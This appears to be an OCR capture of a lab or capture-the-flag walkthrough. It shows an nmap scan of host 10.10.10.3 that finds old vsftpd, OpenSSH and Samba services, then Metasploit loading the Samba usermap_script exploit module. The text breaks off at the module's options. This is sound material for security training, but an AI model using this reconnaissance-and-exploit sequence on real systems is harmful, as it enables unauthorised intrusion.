 ```
root@kali:~# nmap 10.10.10.3 -sS -A

Starting Nmap 7.40 (
https://nmap.org
) at 2017-05-15 18:09 BST
Nmap scan report for 10.10.10.3
Host is up (0.15s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: OpenWrt White Russian 0.9 (Linux 2.4.30) (92%), OpenWrt 0.9 - 7.09 (Linux 2.4.30 - 2.4.34) (90%), OpenWrt Kamikaze 7.09 (Linux 2.6.22) (90%), Crestron XPanel control system (90%), Linux 2.4.18 (90%), Asus RT-AC66U router (Linux 2.6) (89%), Asus RT-N10 router or AXIS 211A Network Camera (Linux 2.6) (89%), Asus RT-N16 WAP (Linux 2.6) (89%), Asus RT-N66U WAP (Linux 2.6) (89%), Tomato 1.28 (Linux 2.6.22) (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2017-05-15T12:03:35-04:00

TRACEROUTE (using port 445/tcp)
HOP RTT       ADDRESS
1   149.09 ms 10.10.12.1
2   149.21 ms 10.10.10.3

OS and Service detection performed. Please report any incorrect results at
https://nmap.org/submit/
.
Nmap done: 1 IP address (1 host up) scanned in 84.47 seconds
```



```
msf > use exploit/multi/samba/usermap_script 
msf exploit(usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
```